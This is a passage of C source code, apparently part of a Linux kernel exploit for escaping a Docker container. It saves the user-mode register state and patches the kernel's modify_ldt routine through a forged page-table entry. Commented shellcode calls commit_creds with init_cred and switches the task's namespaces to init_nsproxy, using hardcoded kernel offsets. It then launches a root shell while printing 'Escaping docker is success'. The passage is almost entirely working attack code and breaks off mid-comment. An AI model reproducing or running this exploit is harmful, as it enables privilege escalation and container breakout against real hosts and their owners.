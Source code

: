 ```c
  if (corrupted_mmap_addr == (void *)-1) {
    find_corrupted_mmap_addr();
  }
  void *affected_addr = corrupted_mmap_addr + cur_offset;
  cur_offset += 0x1000;
  return affected_addr;
}

uint64_t user_cs, user_ss, user_sp, user_rflags;
static void save_state() {
  asm("mov %[u_cs], cs;\n"
      "mov %[u_ss], ss;\n"
      "mov %[u_sp], rsp;\n"
      "pushf;\n"
      "pop %[u_rflags];\n"
      : [u_cs] "=r"(user_cs), [u_ss] "=r"(user_ss), [u_sp] "=r"(user_sp),
        [u_rflags] "=r"(user_rflags)::"memory");
  printf(
      "[*] user_cs: 0x%lx, user_ss: 0x%lx, user_sp: 0x%lx, user_rflags: "
      "0x%lx\n",
      user_cs, user_ss, user_sp, user_rflags);
}

#define MODIFY_LDT_ADDR 0xffffffff810252f0
#define MODIFY_LDT_OFFSET (MODIFY_LDT_ADDR - KERNEL_BASE_START)
uint64_t *modify_ldt_addr;
uint8_t original_modify_ldt_code[0x1000];
static void get_shell() {
  puts("[+] Escaping docker is success");
  puts("    [*] Restore original modify_ldt code");
  memcpy(modify_ldt_addr, original_modify_ldt_code,
         sizeof(original_modify_ldt_code) - (MODIFY_LDT_OFFSET & 0xfff));

  puts("[+] Get shell!");
  char *argv[] = {"/bin/bash", NULL};
  char *envp[] = {NULL};
  execve("/bin/bash", argv, envp);
}
void patch_modify_ldt() {
  const uint64_t pte_for_modify_ldt =
      default_pte_for_kernel_code + (MODIFY_LDT_OFFSET & ~(0xFFF));
  modify_ldt_addr =
      (uint64_t *)(set_pte(pte_for_modify_ldt) + (MODIFY_LDT_OFFSET & 0xfff));
  /*
   * Below opcodes are from:
   * call get_rip;
   * get_rip:
   *   pop r15;
   *   sub r15, 0x252f0; // &__x64_sys_modify_ldt - kbase == 0x252f0
   *   sub r15, 5; // call get_rip; takes 5 bytes
   *
   *   // call commit_creds(&init_cred);
   *   lea rdi, [r15 + 0x145a960]; // &init_cred - kbase == 0x145a960
   *   lea rax, [r15 + 0xeba40]; // &commit_creds - kbase == 0xeba40
   *   call rax;
   *
   *   // task = find_task_by_vpid(1);
   *   // call switch_task_namespaces(task, &init_nsproxy);
   *   mov rdi, 1;
   *   lea rax, [r15 + 0xe4fc0]; // &find_task_by_vpid - kbase == 0xe4fc0
   *   call rax; // find_task_by_vpid(1)
   *   mov rdi, rax; // task
   *   lea rsi, [r15 + 0x145a720]; // &init_nsproxy - kbase == 0x145a720
```